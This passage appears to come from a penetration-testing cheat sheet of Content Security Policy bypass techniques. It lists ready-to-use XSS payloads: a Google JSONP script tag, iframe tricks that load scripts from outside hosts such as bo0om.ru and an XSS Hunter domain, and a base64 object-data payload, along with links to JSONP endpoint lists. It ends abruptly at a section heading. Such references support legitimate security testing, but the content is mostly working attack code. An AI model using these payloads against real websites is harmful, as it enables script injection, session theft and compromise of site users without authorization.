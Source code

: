 ## CSP Bypass

Check the CSP on [https://csp-evaluator.withgoogle.com](https://csp-evaluator.withgoogle.com) and the post : [How to use Google’s CSP Evaluator to bypass CSP](https://websecblog.com/vulns/google-csp-evaluator/)

### Bypass CSP using JSONP from Google (Trick by [@apfeifer27](https://twitter.com/apfeifer27))

//google.com/complete/search?client=chrome&jsonp=alert(1);

```js
<script/src=//google.com/complete/search?client=chrome%26jsonp=alert(1);>"
```

More JSONP endpoints:
* [/Intruders/jsonp_endpoint.txt](Intruders/jsonp_endpoint.txt)
* [JSONBee/jsonp.txt](https://github.com/zigoo0/JSONBee/blob/master/jsonp.txt)

### Bypass CSP by [lab.wallarm.com](https://lab.wallarm.com/how-to-trick-csp-in-letting-you-run-whatever-you-want-73cb5ff428aa)

Works for CSP like `Content-Security-Policy: default-src 'self' 'unsafe-inline';`, [POC here](http://hsts.pro/csp.php?xss=f=document.createElement%28"iframe"%29;f.id="pwn";f.src="/robots.txt";f.onload=%28%29=>%7Bx=document.createElement%28%27script%27%29;x.src=%27//bo0om.ru/csp.js%27;pwn.contentWindow.document.body.appendChild%28x%29%7D;document.body.appendChild%28f%29;)

```js
script=document.createElement('script');
script.src='//bo0om.ru/csp.js';
window.frames[0].document.head.appendChild(script);
```

### Bypass CSP by [Rhynorater](https://gist.github.com/Rhynorater/311cf3981fda8303d65c27316e69209f)

```js
// CSP Bypass with Inline and Eval
d=document;f=d.createElement("iframe");f.src=d.querySelector('link[href*=".css"]').href;d.body.append(f);s=d.createElement("script");s.src="https://[YOUR_XSSHUNTER_USERNAME].xss.ht";setTimeout(function(){f.contentWindow.document.head.append(s);},1000)
```

### Bypass CSP by [@akita_zen](https://twitter.com/akita_zen)

Works for CSP like `script-src self`

```js
<object data="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg=="></object>
```

### Bypass CSP by [@404death](https://twitter.com/404death/status/1191222237782659072)
